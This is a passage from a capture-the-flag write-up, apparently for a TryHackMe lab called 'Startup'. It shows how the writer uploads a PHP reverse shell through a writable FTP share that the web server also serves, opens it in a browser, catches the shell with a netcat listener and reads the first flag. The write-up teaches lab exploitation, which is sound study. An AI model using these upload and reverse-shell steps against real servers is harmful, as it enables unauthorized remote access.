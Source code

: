```
03:01:55  301   302B  /files  →  http://startup/files/
03:01:55  200   508B  /files/
```

<img width="1847" height="963" alt="Screenshot From 2025-09-05 22-01-50" src="https://github.com/user-attachments/assets/3b99eb71-d8c0-4d50-9c3a-282d10fcf405" />

At `/files/` we saw the same files as in the FTP server. That means FTP is tied to the web server.

---

## Reverse Shell Upload

When going to the files path its the same files we have in the ftp server. 
So lets go back to enumerating and find that developer website maybe. 
Nothing came up but going back to the ftp server. I discovered something. 
If we have access to the web server side of the ftp and the ftp server we can upload a file on the ftp server of a reverse shell and access it on the website.

Reverse shell code:
[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```bash
ftp> put reverse_shell.php
local: reverse_shell.php remote: reverse_shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```

Then browsed to:

```
http://startup.thm/files/ftp/reverse_shell.php
```
<img width="1847" height="963" alt="Screenshot From 2025-09-05 22-28-37" src="https://github.com/user-attachments/assets/83db3535-38ed-4dbe-89e2-4cad256b3d0e" />

Listener caught the shell:

```bash
nc -lvnp 4444
```

---

## First Flag

On the server:

```bash
www-data@startup:/$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured 
I can't keep it a secret forever and told him it was love.
```

